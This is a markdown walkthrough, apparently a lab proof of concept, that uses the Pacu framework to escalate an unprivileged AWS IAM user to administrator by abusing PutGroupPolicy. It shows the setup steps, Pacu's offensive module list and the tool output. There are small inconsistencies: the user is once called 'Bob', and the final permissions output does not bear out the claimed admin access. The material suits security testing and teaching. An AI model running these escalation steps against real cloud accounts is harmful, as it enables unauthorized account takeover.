

# AWS EXPLOITATION WITH PACU

## Abstract
[*Pacu*](https://github.com/RhinoSecurityLabs/pacu) is an open-source AWS exploitation framework designed for offensive security testing the security of Amazon Web Services (AWS) environments.  
Pacu allows security professionals, penetration testers, and red teamers to assess the security posture of their AWS environments by performing various actions, including:

- *Enumeration*: Identifying resources, permissions, and configurations in an AWS environment.
- *Privilege Escalation*: Finding and exploiting ways to gain higher levels of access within the AWS environment.
- *Post-Exploitation*: Conducting actions after gaining access, such as data exfiltration or further reconnaissance.
- *Service-Specific Attacks*: Targeting specific AWS services with tailored attacks.

## Privilege escalation with Pacu

In this PoC we will demonstrate aws privilege escalation with Pacu.  


Install Pacu:  
```sh
mkdir pacu && cd pacu;
pip3 install virtualenv;
source venv/bin/activate;
pip3 install pacu;
```  

Launch Pacu:  
```sh
❯ pacu

 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣤⣶⣿⣿⣿⣿⣿⣿⣶⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⣿⡿⠛⠉⠁⠀⠀⠈⠙⠻⣿⣿⣦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⠛⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣿⣷⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣤⣤⣤⣤⣤⣤⣤⣤⣀⣀⠀⠀⠀⠀⠀⠀⢻⣿⣿⣿⡿⣿⣿⣷⣦⠀⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣀⣈⣉⣙⣛⣿⣿⣿⣿⣿⣿⣿⣿⡟⠛⠿⢿⣿⣷⣦⣄⠀⠀⠈⠛⠋⠀⠀⠀⠈⠻⣿⣷⠀⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣈⣉⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⣀⣀⣀⣤⣿⣿⣿⣷⣦⡀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣆⠀⠀⠀⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣬⣭⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⢛⣉⣉⣡⣄⠀⠀⠀⠀⠀⠀⠀⠀⠻⢿⣿⣿⣶⣄⠀⠀
 ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠋⣁⣤⣶⡿⣿⣿⠉⠻⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⢻⣿⣧⡀
 ⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠋⣠⣶⣿⡟⠻⣿⠃⠈⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣿⣧
 ⢀⣀⣤⣴⣶⣶⣶⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⢠⣾⣿⠉⠻⠇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿
 ⠉⠛⠿⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠁⠀⠀⠀⠀⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣿⡟
 ⠀⠀⠀⠀⠉⣻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⣿⡟⠁
 ⠀⠀⠀⢀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⣄⡀⠀⠀⠀⠀⠀⣴⣆⢀⣴⣆⠀⣼⣆⠀⠀⣶⣶⣶⣶⣶⣶⣶⣶⣾⣿⣿⠿⠋⠀⠀
 ⠀⠀⠀⣼⣿⣿⣿⠿⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠓⠒⠒⠚⠛⠛⠛⠛⠛⠛⠛⠛⠀⠀⠉⠉⠉⠉⠉⠉⠉⠉⠉⠉⠀⠀⠀⠀⠀
 ⠀⠀⠀⣿⣿⠟⠁⠀⢸⣿⣿⣿⣿⣿⣿⣿⣶⡀⠀⢠⣾⣿⣿⣿⣿⣿⣿⣷⡄⠀⢀⣾⣿⣿⣿⣿⣿⣿⣷⣆⠀⢰⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠘⠁⠀⠀⠀⢸⣿⣿⡿⠛⠛⢻⣿⣿⡇⠀⢸⣿⣿⡿⠛⠛⢿⣿⣿⡇⠀⢸⣿⣿⡿⠛⠛⢻⣿⣿⣿⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⠸⠿⠿⠟⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣧⣤⣤⣼⣿⣿⡇⠀⢸⣿⣿⣧⣤⣤⣼⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⡿⠃⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⢸⣿⣿⡇⠀⠀⢀⣀⣀⣀⠀⢸⣿⣿⣿⠀⠀⠀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡏⠉⠉⠉⠉⠀⠀⠀⢸⣿⣿⡏⠉⠉⢹⣿⣿⡇⠀⢸⣿⣿⣇⣀⣀⣸⣿⣿⣿⠀⢸⣿⣿⣿⣀⣀⣀⣿⣿⣿
 ⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⡇⠀⠀⢸⣿⣿⡇⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⡿⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⡟
 ⠀⠀⠀⠀⠀⠀⠀⠀⠘⠛⠛⠃⠀⠀⠀⠀⠀⠀⠀⠘⠛⠛⠃⠀⠀⠘⠛⠛⠃⠀⠀⠉⠛⠛⠛⠛⠛⠛⠋⠀⠀⠀⠀⠙⠛⠛⠛⠛⠛⠉⠀

Version: 1.6.0
```

set access keys, we will use the keys of an unprivilege user called `joe`:  

```sh
Pacu (first:No Keys Set) > set_keys
Setting AWS Keys...
Press enter to keep the value currently stored.
Enter the letter C to clear the value, rather than set it.
If you enter an existing key_alias, that key's fields will be updated instead of added.
Key alias must be at least 2 characters

Key alias [None]: joe
Access key ID [None]: <ACCESS-KEY-ID-HERE>
Secret access key [None]: <SECRET-ACCESS-KEY-HERE>
Session token (Optional - for temp AWS keys only) [None]: 

Keys saved to database.

```  

The user has the following IAM policy attached to it:  
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Action": [
                "iam:Get*",
                "iam:List*",
                "iam:Put*",
                "iam:SimulateCustomPolicy",
                "iam:SimulatePrincipalPolicy"
            ],
            "Resource": "*"
        }
    ]
}
```  


Check your current identity:  

```sh
whoami  
```  


Output:  
```json
{
  "UserName": null,
  "RoleName": null,
  "Arn": null,
  "AccountId": null,
  "UserId": null,
  "Roles": null,
  "Groups": null,
  "Policies": null,
  "AccessKeyId": "AKIA****************",
  "SecretAccessKey": "wyGx************************************",
  "SessionToken": null,
  "KeyAlias": "joe",
  "PermissionsConfirmed": null,
  "Permissions": {
    "Allow": {},
    "Deny": {}
  }
}
```  

list all available pacu commands:  
```sh 
ls  

[Category: LATERAL_MOVE]

  cloudtrail__csv_injection
  organizations__assume_role
  sns__subscribe
  vpc__enum_lateral_movement

[Category: EVADE]

  cloudtrail__download_event_history
  cloudwatch__download_logs
  detection__disruption
  detection__enum_services
  elb__enum_logging
  guardduty__whitelist_ip
  waf__enum

[Category: RECON_UNAUTH]

  ebs__enum_snapshots_unauth
  iam__enum_roles
  iam__enum_users

[Category: ENUM]

  acm__enum
  apigateway__enum
  aws__enum_account
  aws__enum_spend
  cloudformation__download_data
  codebuild__enum
  cognito__enum
  dynamodb__enum
  ebs__enum_volumes_snapshots
  ec2__check_termination_protection
  ec2__download_userdata
  ec2__enum
  ecr__enum
  ecs__enum
  ecs__enum_task_def
  eks__enum
  glue__enum
  guardduty__list_accounts
  guardduty__list_findings
  iam__bruteforce_permissions
  iam__decode_accesskey_id
  iam__detect_honeytokens
  iam__enum_action_query
  iam__enum_permissions
  iam__enum_users_roles_policies_groups
  iam__get_credential_report
  inspector__get_reports
  lambda__enum
  lightsail__enum
  mq__enum
  organizations__enum
  rds__enum
  rds__enum_snapshots
  route53__enum
  secrets__enum
  sns__enum
  systemsmanager__download_parameters
  transfer_family__enum

[Category: EXFIL]

  ebs__download_snapshots
  rds__explore_snapshots
  s3__download_bucket

[Category: EXPLOIT]

  api_gateway__create_api_keys
  cognito__attack
  ebs__explore_snapshots
  ec2__startup_shell_script
  ecs__backdoor_task_def
  lightsail__download_ssh_keys
  lightsail__generate_ssh_keys
  lightsail__generate_temp_access
  systemsmanager__rce_ec2

[Category: PERSIST]

  ec2__backdoor_ec2_sec_groups
  iam__backdoor_assume_role
  iam__backdoor_users_keys
  iam__backdoor_users_password
  lambda__backdoor_new_roles
  lambda__backdoor_new_sec_groups
  lambda__backdoor_new_users

[Category: ESCALATE]

  cfn__resource_injection
  iam__privesc_scan
```


We want to check for IAM Privilege escalation paths:  

```sh
help iam__privesc_scan


iam__privesc_scan written by Spencer Gietzen of Rhino Security Labs.

Prerequisite Module(s): ['iam__enum_permissions', 'iam__enum_users_roles_policies_groups', 'iam__backdoor_users_keys', 'iam__backdoor_users_password', 'iam__backdoor_assume_role', 'glue__enum', 'lambda__enum']

usage: pacu [-h] [--offline] [--folder FOLDER] [--scan-only] [--method-info METHOD_INFO] [--method-list]
            [--user-methods USER_METHODS [USER_METHODS ...]] [--role-methods ROLE_METHODS [ROLE_METHODS ...]]

This module will scan for permission misconfigurations to see where privilege escalation will be possible. Available attack paths will
be presented to the user and executed on if chosen. Warning: Due to the implementation in IAM policies, this module has a difficult time
parsing "NotActions". If your user has any NotActions associated with them, it is recommended to manually verify the results of this
module. NotActions are noted with a "!" preceeding the action when viewing the results of the "whoami" command. For more information on
what NotActions are, visit the following link:
https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_elements_notaction.html

options:
  -h, --help            show this help message and exit
  --offline             By passing this argument, this module will not make an API calls. If offline mode is enabled, you need to pass a
                        file path to a folder that contains JSON files of the different users, policies, groups, and/or roles in the
                        account using the --folder argument. This module will scan those JSON policy files to identify users, groups,
                        and roles that have overly permissive policies.
  --folder FOLDER       A file path pointing to a folder full of JSON files containing policies and connections between users, groups,
                        and/or roles in an AWS account. The module "iam__enum_permissions" with the "--all-users" flag outputs the exact
                        format required for this feature to
                        ~/.local/share/pacu/sessions/[current_session_name]/downloads/confirmed_permissions/.
  --scan-only           Only run the scan to check for possible escalation methods, don't attempt any found methods.
  --method-info METHOD_INFO
                        View information for a particular privesc method like: --method-info CreateNewPolicyVersion.
  --method-list         List all privesc methods.
  --user-methods USER_METHODS [USER_METHODS ...]
                        Specify user methods to attempt.
  --role-methods ROLE_METHODS [ROLE_METHODS ...]
                        Specify role methods to attempt.
```  

Execute the `run iam__privesc_scan` command to scan for permission misconfigurations in the environment and see what privilege escalation vectors might be available.  
Select "y" when prompted to run the module `iam__enum_permissions`:  

```sh
[iam__privesc_scan] Escalation methods for current user:
[iam__privesc_scan]   CONFIRMED: PutGroupPolicy
[iam__privesc_scan]   CONFIRMED: PutUserPolicy
[iam__privesc_scan] Attempting confirmed privilege escalation methods...

[iam__privesc_scan]   Starting method PutGroupPolicy...

[iam__privesc_scan]     Is there a specific group to target? Enter the name now or just press enter to enumerate a list of possible groups to choose from: 
[iam__privesc_scan] Found 1 groups that the current user belongs to. Choose one below.
[iam__privesc_scan]   [0] vuln
[iam__privesc_scan] Choose an option: 0
[iam__privesc_scan] Targeting group vuln. Trying to add an administrator policy to it...
[iam__privesc_scan]   Successfully added an inline policy rvpxdmho4t to group vuln! You should now have administrator permissions.


[iam__privesc_scan] iam__privesc_scan completed.

[iam__privesc_scan] MODULE SUMMARY:

  Privilege escalation was successful


```  

We succesfully obtained a privilege escalation to administrator via the custom created policy `rvpxdmho4t`.  

Go to the aws console and check the custom inline policy that pacu created and attached to our user: 

  

Running the `whoami` command again, we observe that the permissions have been escalated for our user Bob.  
We have "Allow" permissions to all resources:  

```json
{
  "UserName": "joe",
  "RoleName": null,
  "Arn": "arn:aws:iam::<ACCOUNT-ID>:user/joe",
  "AccountId": "<ACCOUNT-ID>",
  "UserId": "AIDAZQ3DN5MVPEII2WBPL",
  "Roles": null,
  "Groups": [
    {
      "Path": "/",
      "GroupName": "vuln",
      "GroupId": "AGPAZQ3DN5MVNSDU5DP6U",
      "Arn": "arn:aws:iam::<ACCOUNT-ID>:group/vuln",
      "CreateDate": "Wed, 03 Jul 2024 06:44:40",
      "Policies": [
        {
          "PolicyName": "vulnerable-to-privesc",
          "PolicyArn": "arn:aws:iam::<ACCOUNT-ID>:policy/vulnerable-to-privesc"
        }
      ]
    }
  ],
  "Policies": [],
  "AccessKeyId": "AKIA***************************",
  "SecretAccessKey": "wyGx*******************************************",
  "SessionToken": null,
  "KeyAlias": "joe",
  "PermissionsConfirmed": true,
  "Permissions": {
    "Allow": {
      "iam:listaccesskeys": {
        "Resources": [
          "*"
        ]
      },
      "iam:listinstanceprofiletags": {
        "Resources": [
          "*"
        ]
      },
      "iam:listpolicytags": {
        "Resources": [
          "*"
        ]
      },
      "iam:listusertags": {
        "Resources": [
          "*"
        ]
      },
      "iam:getuser": {
        "Resources": [
          "*"
        ]
      },
      "iam:getgroup": {
        "Resources": [
          "*"
        ]
      },
      "iam:getcontextkeysforcustompolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listopenidconnectproviders": {
        "Resources": [
          "*"
        ]
      },
      "iam:simulatecustompolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listinstanceprofiles": {
        "Resources": [
          "*"
        ]
      },
      "iam:getsamlprovider": {
        "Resources": [
          "*"
        ]
      },
      "iam:getservicelastaccesseddetailswithentities": {
        "Resources": [
          "*"
        ]
      },
      "iam:listsamlproviders": {
        "Resources": [
          "*"
        ]
      },
      "iam:getaccountauthorizationdetails": {
        "Resources": [
          "*"
        ]
      },
      "iam:listservercertificates": {
        "Resources": [
          "*"
        ]
      },
      "iam:getcontextkeysforprincipalpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listvirtualmfadevices": {
        "Resources": [
          "*"
        ]
      },
      "iam:listpoliciesgrantingserviceaccess": {
        "Resources": [
          "*"
        ]
      },
      "iam:listgroupsforuser": {
        "Resources": [
          "*"
        ]
      },
      "iam:listinstanceprofilesforrole": {
        "Resources": [
          "*"
        ]
      },
      "iam:getservercertificate": {
        "Resources": [
          "*"
        ]
      },
      "iam:listpolicyversions": {
        "Resources": [
          "*"
        ]
      },
      "iam:simulateprincipalpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listsigningcertificates": {
        "Resources": [
          "*"
        ]
      },
      "iam:listpolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:listattacheduserpolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:listsamlprovidertags": {
        "Resources": [
          "*"
        ]
      },
      "iam:getaccountpasswordpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listroles": {
        "Resources": [
          "*"
        ]
      },
      "iam:getopenidconnectprovider": {
        "Resources": [
          "*"
        ]
      },
      "iam:getgrouppolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listroletags": {
        "Resources": [
          "*"
        ]
      },
      "iam:getcredentialreport": {
        "Resources": [
          "*"
        ]
      },
      "iam:listopenidconnectprovidertags": {
        "Resources": [
          "*"
        ]
      },
      "iam:getservicelastaccesseddetails": {
        "Resources": [
          "*"
        ]
      },
      "iam:getservicelinkedroledeletionstatus": {
        "Resources": [
          "*"
        ]
      },
      "iam:listgrouppolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:getuserpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listmfadevices": {
        "Resources": [
          "*"
        ]
      },
      "iam:getrole": {
        "Resources": [
          "*"
        ]
      },
      "iam:listservicespecificcredentials": {
        "Resources": [
          "*"
        ]
      },
      "iam:listattachedgrouppolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:getaccesskeylastused": {
        "Resources": [
          "*"
        ]
      },
      "iam:getaccountemailaddress": {
        "Resources": [
          "*"
        ]
      },
      "iam:getrolepolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:getaccountname": {
        "Resources": [
          "*"
        ]
      },
      "iam:getloginprofile": {
        "Resources": [
          "*"
        ]
      },
      "iam:getcloudfrontpublickey": {
        "Resources": [
          "*"
        ]
      },
      "iam:putrolepermissionsboundary": {
        "Resources": [
          "*"
        ]
      },
      "iam:putuserpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listattachedrolepolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:getinstanceprofile": {
        "Resources": [
          "*"
        ]
      },
      "iam:getpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listmfadevicetags": {
        "Resources": [
          "*"
        ]
      },
      "iam:liststsregionalendpointsstatus": {
        "Resources": [
          "*"
        ]
      },
      "iam:listentitiesforpolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:listservercertificatetags": {
        "Resources": [
          "*"
        ]
      },
      "iam:putgrouppolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:putrolepolicy": {
        "Resources": [
          "*"
        ]
      },
      "iam:getorganizationsaccessreport": {
        "Resources": [
          "*"
        ]
      },
      "iam:listgroups": {
        "Resources": [
          "*"
        ]
      },
      "iam:listcloudfrontpublickeys": {
        "Resources": [
          "*"
        ]
      },
      "iam:listuserpolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:listsshpublickeys": {
        "Resources": [
          "*"
        ]
      },
      "iam:listrolepolicies": {
        "Resources": [
          "*"
        ]
      },
      "iam:putuserpermissionsboundary": {
        "Resources": [
          "*"
        ]
      },
      "iam:getsshpublickey": {
        "Resources": [
          "*"
        ]
      },
      "iam:listusers": {
        "Resources": [
          "*"
        ]
      },
      "iam:getmfadevice": {
        "Resources": [
          "*"
        ]
      },
      "iam:getaccountsummary": {
        "Resources": [
          "*"
        ]
      },
      "iam:listaccountaliases": {
        "Resources": [
          "*"
        ]
      },
      "iam:getpolicyversion": {
        "Resources": [
          "*"
        ]
      }
    },
    "Deny": {}
  }
}

```


